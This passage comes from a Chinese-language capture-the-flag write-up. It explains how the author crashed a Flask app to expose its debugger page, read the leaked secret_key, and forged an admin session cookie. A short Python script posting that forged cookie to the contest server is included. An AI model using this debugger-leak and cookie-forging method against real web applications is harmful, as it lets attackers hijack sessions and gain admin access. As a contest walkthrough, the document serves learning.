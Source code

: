 于是下一步就是让它报错。尝试直接POST一个[]，果然返回了debugger页面：

![](2021-05-23-14-02-13.png)

*当时做的时候在这个地方卡了很久，主要是以为要爆debugger的PIN输指令，后来发现顶上代码区有secret_key。复盘的时候发现这个地方实际上有一定的运气成分，如果一开始尝试的是在json获取属性的时候崩掉（比如post一个flag:null），因为错误位置靠下，错误信息里也就不会有secret_key了……*

在页面中发现以下内容：

~~~html
<div class="source "><pre class="line before"><span class="ws"></span>app.secret_key = &#x27;oh you got it, one more step to get flag&#x27;</pre>
~~~

于是得到了secret_key，为:'oh you got it, one more step to get flag'

那么one more step是啥呢……查看代码，发现判断是否登录的条件是看session['admin']；查看请求信息，发现cookie中有session信息。通过flask_session_cookie_manager，可以解码得到其payload为{"admin":false}；同时由于已经获取了secret_key，也可以用flask_session_cookie_manager再构造新的session信息cookie.


于是:
~~~py
import requests
import json 
import webbrowser as wb
url="http://prob10.geekgame.pku.edu.cn/"
requests.post(url,data='{"token":"","action":"getflag"}',headers={'Content-Type':'application/json','Cookie':'session=eyJhZG1pbiI6dHJ1ZX0.YKO7yA.ekud_ckUtvYZPGFQOJYdGVZVlLU'}).text
~~~
